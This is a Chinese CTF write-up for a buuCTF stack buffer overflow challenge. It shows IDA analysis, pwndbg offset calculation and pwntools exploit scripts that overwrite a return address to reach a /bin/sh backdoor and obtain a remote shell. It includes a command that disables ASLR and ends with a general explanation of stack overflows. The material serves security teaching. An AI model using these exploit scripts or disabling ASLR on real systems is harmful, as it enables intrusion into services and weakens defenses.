








# IDA静态分析

## 使用`checksec`命令查看保护方式



看到没有任何保护，可以直接利用栈溢出攻击

## 使用IDA对pwn1进行反汇编

首先查看`main()`:





其中可以看到main函数定义了一个字符数组s[15]并在shell请求输入，在没有任何保护方式以及判定输入字符串大小的情况下很容易数组越界导致缓冲区溢出，我们可以以此为突破点。
接着找到gets函数的定义处
可以看到这里没有任何检测输入长度的措施

## 开始寻找可利用栈溢出使程序崩溃的函数地址

在IDA中Shift+F12查找所有字符串，找到了`/bin/sh`很可能是后门



双击后

发现`bin/sh`在fun函数处交叉引用（XREF）
找到fun函数：

发现fun函数地址：0x401186  fun+4地址：0x40118A

按F5反编译为C：
可以确定0x40118A就是在shell输入`/bin/sh`的指令地址

## 构建payload，编写exp

```python
from pwn import *
# 和靶机进行连接
p = remote('ip', port)
# 定义fun函数的内存地址
fun_addr = 0x40118A
# 最后加上p64函数转换的fun函数的地址
payload = (b"a" * 15) + (b"b" * 8) + p64(fun_addr) 
# 定义payload,一共需要15个字节数据a填充s[15],需要8个字节数据b填充栈帧(RBP)，这些都是垃圾数据
print(payload)
p.sendline(payload) # 发送payload
p.interactive() # 获取靶机交互式终端
```

获取到shell后 `ls`查看当前目录文件，发现flag，直接`cat flag`
得到flag: `flag{be9f04c1-5785-4642-a03e-e5e9c94b94d5}`

------

# pwndbg动态调试

buuCTF-rip把偏移量相当于是直接显示出来了，还不太了解有哪些地方可以用pwndbg，就写了pwndbg计算偏移量的笔记：

##关闭 ASLR（避免地址随机化）

```shell
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 调试与偏移计算

###生成测试输入：

```python
from pwn import *
open('input.txt', 'wb').write(cyclic(100))
```

可以直接在终端输入  `python3 -c "from pwn import *; open('input.txt', 'wb').write(cyclic(100))"`
*生成 100 字节的测试输入(cyclic pattern)（默认 n=4 模式）*

### 用 GDB + Pwndbg 运行程序并触发崩溃

在shell中 `gdb ./fileName` 进入gdb后 *`r < input.txt`*^[1]^
*[1] `r`是gdb命令中run的缩写 **`< input.txt`**是 Shell 的输入重定向语法，虽然写在 GDB 里,但 GDB 支持它*
*它告诉操作系统：**不要从键盘读取输入，而是从 `input.txt` 文件中读取内容，并“喂”给程序***

### 从崩溃现场提取关键信息

崩溃后，Pwndbg 会显示寄存器和栈内容。重点关注：

####方法 A：看 `RSP` 指向的返回地址（推荐）

```text
───────────────────────[ REGISTERS ]───────────────────────
RSP  0x7fffffffe308 ◂— 'agaaahaaaiaaaj...'
```

- `RSP` 指向的就是**即将被 `ret` 弹出的返回地址**
- 取前 **4 个字符**（因为 cyclic 默认 n=4）→ 例如 `'agaa'`

####  方法 B：看 `RIP` 下方的 `<0x...>` 提示

```text
► 0x401185 <main+67>    ret    <0x6161686161616761>
```

将`0x6161686161616761`**按小端序**转为字节：

- 内存顺序：`61 67 61 61 61 68 61 61`
- 前 4 字节：`61 67 61 61` → ASCII = `'agaa'`

> 关键原则：取返回地址在内存中的前 4 字节（小端序），作为字符串查找

### 计算偏移量

使用 `cyclic_find`，**不要指定 `n=8`**（除非你明确用 `cyclic(100, n=8)` 生成）：

```shell
python3 -c "from pwn import *; print(cyclic_find(b'agaa'))"
```

输出示例：  `23`

 **这个数字就是偏移量（offset）**
 → 表示：**前 23 字节是填充，第 24~31 字节覆盖返回地址**

## 构造最终 Payload

### 1. 确定目标函数地址

通过 IDA、Ghidra 或 `objdump` 找到后门函数（如 `fun`）的地址：

```
$ objdump -t pwn1 | grep fun
0000000000401186 g     F .text  0000000000000010              fun
```

→ 地址 = `0x401186`

### 2. 编写 payload

```python
payload = b"A" * 23 + p64(0x401186)
```

### 3. 本地验证（可选）

```shell
python3 -c "from pwn import *; open('payload', 'wb').write(b'A'*23 + p64(0x401186))"
gdb ./pwn1
(pwndbg) r < payload
```

如果程序跳转到 `fun` 并弹 shell 或打印 flag，说明成功！

### 4. 攻击远程服务器

```python
from pwn import *
# 连接远程
r = remote("ip", port)
# 构造 payload
payload = b"A" * 23 + p64(0x401186)
# 发送
r.sendline(payload)
# 交互拿 flag
r.interactive()
```

------

# 栈溢出的原理

栈溢出（Stack Overflow）是一种常见的程序错误，通常发生在程序调用栈（call stack）使用超出其分配空间时。理解栈溢出的原理需要先了解程序运行时内存的基本布局和函数调用机制。

## 程序运行时的内存布局

一个典型的程序在运行时，其虚拟内存通常被划分为以下几个区域：

1. **代码段（Text Segment）**：存放程序的机器指令。
2. 数据段（Data Segment）：
   - 初始化数据区（如全局变量、静态变量）
   - 未初始化数据区（BSS 段）
3. **堆（Heap）**：动态分配内存（如 malloc/new），从低地址向高地址增长。
4. **栈（Stack）**：用于函数调用时保存局部变量、参数、返回地址等，从高地址向低地址增长。

> 栈和堆通常是相对增长的，中间留有空隙以防碰撞。

## 函数调用与栈帧（Stack Frame）

每当一个函数被调用时，系统会在栈上创建一个“栈帧”（也叫活动记录，Activation Record），其中包含：

- 函数参数
- 局部变量
- 返回地址（调用该函数后应跳回的位置）
- 前一个栈帧的指针（如基址指针 EBP/RBP）

函数返回时，该栈帧被弹出（释放），控制权交还给调用者。

## 栈溢出的成因

栈溢出主要由以下两种情况引起：

### 1. **递归过深（最常见）**

如果一个函数递归调用自身，但没有合适的终止条件（或终止条件无法到达），就会不断压入新的栈帧，最终耗尽栈空间。

```c
void infinite_recursion() {
    infinite_recursion(); // 无终止条件
}
```

每次调用都占用栈空间，直到栈满 → 触发栈溢出。

### 2. **局部变量过大**

在函数中声明非常大的局部数组（尤其是自动变量），可能一次性占用大量栈空间。

```c
void big_local() {
    char buffer[10 * 1024 * 1024]; // 10MB 的局部数组
    // 如果栈大小只有 1~8MB（常见默认值），就会溢出
}
```

## 操作系统如何处理栈溢出？

当程序试图访问超出栈分配范围的内存时：

- 在大多数现代操作系统（如 Linux、Windows）中，会触发 **段错误（Segmentation Fault）** 或 **栈溢出异常（Stack Overflow Exception）**。
- 程序通常会异常终止（crash）。

例如，在 Linux 上你会看到 `SIGSEGV` 信号；在 Windows 上可能是 `EXCEPTION_STACK_OVERFLOW`。

## 栈溢出 vs 缓冲区溢出（注意区分！）

很多人混淆“栈溢出”和“缓冲区溢出”：

| 类型                                      | 原因                           | 后果                         | 是否安全漏洞                             |
| ----------------------------------------- | ------------------------------ | ---------------------------- | ---------------------------------------- |
| **栈溢出（Stack Overflow）**              | 栈空间耗尽（如无限递归）       | 程序崩溃                     | 通常不是安全漏洞（DoS 可能）             |
| **栈缓冲区溢出（Stack Buffer Overflow）** | 向局部数组写入超过其边界的数据 | 可能覆盖返回地址，劫持控制流 | 是严重的安全漏洞（可被利用执行任意代码） |

> 虽然名字相似，但后者是安全攻击的经典手段（如通过 `gets()`、`strcpy()` 等不安全函数）。

## 如何避免栈溢出？

1. **确保递归有正确的终止条件**，并考虑使用迭代替代深度递归。

2. **避免在栈上分配大对象**：大数组或结构体应改用堆分配（`malloc` / `new`）。

3. 增加栈大小（谨慎使用）：

   - Linux：`ulimit -s 16384`（设为 16MB）
   - 编译器选项：如 GCC 的 `-Wl,--stack,16777216`
   - 线程创建时可指定栈大小（如 pthread_attr_setstacksize）
   
4. **使用尾递归优化（若语言/编译器支持）**：如某些函数式语言或 GCC 对特定递归的优化。

## 示例：递归导致栈溢出

```
#include <stdio.h>

void recurse(int n) {
    printf("%d\n", n);
    recurse(n + 1); // 无限递归
}

int main() {
    recurse(0);
    return 0;
}
```

运行结果（Linux）：

```
...
261872
261873
Segmentation fault (core dumped)
```

------

## 总结

栈溢出的本质是**程序使用的栈空间超过了系统为其分配的上限**，常见于无限递归或大局部变量。它会导致程序崩溃，虽不一定是安全漏洞，但在开发中需高度重视。理解栈的工作机制有助于编写更健壮、高效的代码。
